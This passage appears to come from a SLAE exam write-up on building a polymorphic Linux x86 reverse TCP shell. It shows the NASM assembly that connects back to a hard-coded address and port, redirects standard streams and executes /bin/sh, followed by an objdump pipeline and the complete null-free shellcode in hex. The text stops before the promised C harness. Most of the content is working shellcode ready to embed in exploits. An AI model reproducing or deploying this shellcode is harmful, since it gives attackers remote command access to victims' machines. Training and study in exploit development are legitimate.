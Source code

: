 ```nasm 
	mov dword [esp], 0x0101017f	; ip address
	sub esp, 0x8			; substitute 0x8 with esp
	push word 0x697a		; port
	push bx				; push bx onto the stack
	add bl, 0x1			; move 0x1 into bl
	mov ecx, esp			; move esp into ecx
	push 0x10			; push 0x10 onto the stack
	push ecx			; push ecx onto the stack
	push esi			; push esi onto the stack
	push esp			; push esp onto the stack
	pop ecx				; pop ecx off the stack
	int 0x80			; call the interrupt to execute the 2nd syscall
	sub ecx, ecx			; substitute ecx with ecx, initialize register
	pop ecx				; pop ecx off the stack

	loop_dup2:
	mov al, 0x3f			; move 0x3f into al // changed the order
	dec cl				; decrement cl
	int 0x80			; call the interrupt to execute the 3rd syscall
	jns loop_dup2			; repeat for 1,0
	sub eax, eax 			; substitute eax with eax, initialize register
	push edx			; push edx onto the stack
	push 0x68732f6e			; push the end of "//bin/sh", 'hs/n'
	push 0x69622f2f			; push the beginning of "//bin/sh", 'ib//'
	push esp			; push esp onto the stack
	pop ebx				; pop ebx off the stack
	push edx			; push edx onto the stack
	push ebx			; push ebx onto the stack
	push esp 			; push esp onto the stack
	pop ecx				; pop ecx off the stack
	push edx			; push edx onto the stack
	push esp			; push esp onto the stack
	pop edx				; pop edx off the stack
	add al, 0xb			; add 0xb to al
	int 0x80			; call the interrupt to execute the 4th syscall
```

The Assembly code is compiled by assembling with Nasm, and compiled as an executable binary.

Objdump is used to extract the shellcode from the Reverse TCP shell in hex format (Null free):

```bash
osboxes@osboxes:~/Downloads/SLAE$ objdump -d ./revtcpshell_poly | grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
"\x29\xc0\x29\xdb\x29\xc9\x29\xd2\x04\x66\xfe\xc3\x51\xc6\x44\x24\xf8\x02\xc6\x04\x24\x06\xc6\x44\x24\xfc\x01\x83\xec\x08\x54\x59\xcd\x80\x89\xc6\xb0\x66\xfe\xc3\xc7\x04\x24\x7f\x01\x01\x83\xec\x08\x66\x68\x7a\x69\x66\x53\x80\xc3\x01\x89\xe1\x6a\x10\x51\x56\x54\x59\xcd\x80\x29\xc9\x59\xb0\x3f\xfe\xc9\xcd\x80\x79\xf8\x29\xc0\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x54\x5b\x52\x53\x54\x59\x52\x54\x5a\x04\x0b\xcd\x80" 
```

A C program scripted with the newly generated shellcode:


[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment6
[execve-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-811.php
[reversetcp-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-849.php